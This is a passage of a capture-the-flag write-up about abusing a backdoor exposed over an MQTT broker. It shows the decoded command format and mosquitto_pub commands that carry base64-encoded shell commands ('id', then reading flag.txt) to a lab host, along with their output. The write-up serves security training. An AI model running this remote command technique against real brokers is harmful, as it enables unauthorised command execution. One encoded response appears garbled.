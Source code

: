 Response -

```
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiTWVzc2FnZSBmb3JtYXQ6XG4gICAgQmFzZTY0KHtcbiAgICAgICAgXCJpZFwiOiBcIjxCYWNrZG9vciBJRD5cIixcbiAgICAgICAgXCJjbWRcIjogXCI8Q29tbWFuZD5cIixcbiAgICAgICAgXCJhcmdcIjogXCI8YXJnPlwiLFxuICAgIH0pXG5cbkNvbW1hbmRzOlxuICAgIEhFTFA6IERpc3BsYXkgaGVscCBtZXNzYWdlICh0YWtlcyBubyBhcmcpXG4gICAgQ01EOiBSdW4gYSBzaGVsbCBjb21tYW5kXG4gICAgU1lTOiBSZXR1cm4gc3lzdGVtIGluZm9ybWF0aW9uICh0YWtlcyBubyBhcmcpXG4ifQ
```

Decode it :

```
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiTWVzc2FnZSBmb3JtYXQ6XG4gICAgQmFzZTY0KHtcbiAgICAgICAgXCJpZFwiOiBcIjxCYWNrZG9vciBJRD5cIixcbiAgICAgICAgXCJjbWRcIjogXCI8Q29tbWFuZD5cIixcbiAgICAgICAgXCJhcmdcIjogXCI8YXJnPlwiLFxuICAgIH0pXG5cbkNvbW1hbmRzOlxuICAgIEhFTFA6IERpc3BsYXkgaGVscCBtZXNzYWdlICh0YWtlcyBubyBhcmcpXG4gICAgQ01EOiBSdW4gYSBzaGVsbCBjb21tYW5kXG4gICAgU1lTOiBSZXR1cm4gc3lzdGVtIGluZm9ybWF0aW9uICh0YWtlcyBubyBhcmcpXG4ifQ==" | base64 -d

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"Message format:\n    Base64({\n        \"id\": \"<Backdoor ID>\",\n        \"cmd\": \"<Command>\",\n        \"arg\": \"<arg>\",\n    })\n\nCommands:\n    HELP: Display help message (takes no arg)\n    CMD: Run a shell command\n    SYS: Return system information (takes no arg)\n"}
```

Most interesting thing is the cmd command which can be used to execute the OS commands.

We can try to execute the "id" command 

```
mosquitto_pub -h 10.10.15.102 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m "eyJpZCI6ICIwMCIsICJjbWQiOiAiQ01EIiwgImFyZyI6ICJpZCJ9"
```

reponse :

```
echo "eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIeyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoidWlkPTEwMDAoY2hhbGxlbmdlKSBnaWQ9MTAwMChjaGFsbGVuZ2UpIGdyb3Vwcz0xMDAwKGNoYWxsZW5nZSlcbiJ9" | base64  -d

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)\n"}
```

As we can see the commadn got successfully executed and we are the user "challlenge"

Now we can read the flag which is usually stored as "flag.txt"

```
mosquitto_pub -h 10.10.15.102 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m  "eyJpZCI6ICIwMCIsICJjbWQiOiAiQ01EIiwgImFyZyI6ICJjYXQgfi9mbGFnLnR4dCJ9"
```

We got the flag - 

```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{Redacted}\n"}
````

### Conclusion 

Through MQTT misconfiguration, we exploited the broker to execute system commands remotely and successfully retrieved the flag. This highlights the critical importance of securing MQTT topics and validating message formats.
